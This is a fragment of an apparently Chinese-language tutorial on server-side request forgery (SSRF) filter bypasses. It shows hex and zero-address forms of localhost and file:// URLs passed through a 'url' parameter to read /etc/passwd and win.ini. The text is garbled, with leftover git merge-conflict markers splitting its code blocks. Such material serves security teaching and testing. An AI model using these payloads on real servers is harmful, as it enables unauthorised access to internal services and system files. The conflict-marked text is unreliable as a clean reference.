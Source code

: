 [![](assets/1710299749-67bbaa006eab5f279c43b06fe1e3c659.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240312171650-420d534a-e051-1.png)

在访问的时候加 0x

```bash
http://0x7f000001
```

[![](assets/1710299749-26086c31ec1ef028de1012647f0b9ca9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240312171707-4c2ec8ea-e051-1.png)

### 利用特殊地址

```bash
http://0/
```

[![](assets/1710299749-e22190f2950259933e1d979fd4fde802.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240312171946-ab5a079e-e051-1.png)
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f

### 利用伪协议类

**file 协议**  
file:// 协议用来从文件系统获取文件

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
http://example.com/ssrf.php?url=file:///etc/passwd
http://example.com/ssrf.php?url=file:///C:/Windows/win.ini
```
